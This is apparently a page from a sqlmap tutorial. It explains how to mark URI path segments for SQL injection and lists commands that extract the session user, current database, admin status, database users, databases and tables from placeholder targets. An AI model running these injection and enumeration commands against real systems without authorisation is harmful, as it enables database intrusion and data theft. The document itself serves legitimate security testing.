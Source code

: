 ## Testing URL Paths

For parameters included inside URI paths, append an asterisk (\*) after each segment to specify where to try SQL injection:

```sh
python sqlmap.py -u "http://host/page/param-value*/"
```

## Extracting Information with sqlmap

Sqlmap simplifies extracting information from databases, even without direct result display on the vulnerable webpage.

### Options for Extracting Information:

- Recover session user:
  ```sh
  python sqlmap.py -u "http://target" --current-user
  ```
- Detect current database:
  ```sh
  python sqlmap.py -u "http://target" --current-db
  ```
- Check if session user is a database administrator:
  ```sh
  python sqlmap.py -u "http://target" --is-dba
  ```
- List database system users:
  ```sh
  python sqlmap.py -u "http://target" --users
  ```
- List databases:
  ```sh
  python sqlmap.py -u "http://target" --dbs
  ```

### Enumerating Tables

When the session user has read access to system tables, sqlmap can enumerate tables:

```sh
python sqlmap.py -u "http://target" --tables
```

Additional options:

- Restrict results to a specified database:
  ```sh
  python sqlmap.py -u "http://target" -D database_name --tables
  ```
- Exclude system tables:
  ```sh
  python sqlmap.py -u "http://target" --exclude-sysdbs --tables
  ```
